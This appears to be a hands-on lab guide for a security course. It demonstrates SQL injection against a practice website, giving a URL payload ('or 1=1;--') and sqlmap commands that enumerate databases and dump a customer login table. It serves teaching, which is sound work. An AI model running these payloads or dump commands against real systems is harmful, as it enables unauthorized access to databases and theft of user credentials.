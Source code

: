 **Objective:** Understand SQL injection attacks and how they can compromise sensitive data.

**Overview:** SQL injection allows attackers to manipulate SQL queries, gaining unauthorized access to databases, modifying data, and extracting sensitive information.

**Lab Steps:**

1. **Setup:**
   - Start the PfSense Firewall VM.
   - Launch the Web Server VM and log in with `admin@123`.
   - Launch the Attacker VM and log in as user Bob with password `user@123`.

2. **Access the Target Website:**
   - Open Firefox and navigate to `http://www.luxurytreats.com`.
   - Log in with username `bob` and password `Passw0rd`.

3. **Demonstrate SQL Injection:**
   - Navigate to "My Orders" and select Order Id `ORD-001`.
   - Modify the URL to: `http://www.luxurytreats.com/OrderDetail.aspx?Id=ORD-001' or 1=1;--` to view unauthorized order details.

4. **Use SQLMap for Database Extraction:**
   - Open a terminal and update the system: `sudo apt-get update`.
   - Install pip: `sudo apt install python3-pip`.
   - Upgrade SQLMap: `sudo pip install --upgrade sqlmap`.
   - Retrieve databases: `sqlmap -u "http://www.luxurytreats.com/OrderDetail.aspx?Id=ORD-001" -dbs`.

5. **Extract Tables and Columns:**
   - List tables in the `Hotels` database: `sqlmap -u "http://www.luxurytreats.com/OrderDetail.aspx?Id=ORD-001" -D hotels --tables`.
   - Retrieve columns from `CustomerLogin` table: `sqlmap -u "http://www.luxurytreats.com/OrderDetail.aspx?Id=ORD-001" -D Hotels -T CustomerLogin --columns`.

6. **Dump Sensitive Data:**
   - Extract all records from `CustomerLogin`: `sqlmap -u "http://www.luxurytreats.com/OrderDetail.aspx?Id=ORD-001" -D Hotels -T CustomerLogin --dump`.
   - If necessary, repeat with root permissions.

**Conclusion:** This lab illustrates how SQL injection can be exploited to access sensitive user information, highlighting the importance of securing web applications against such vulnerabilities.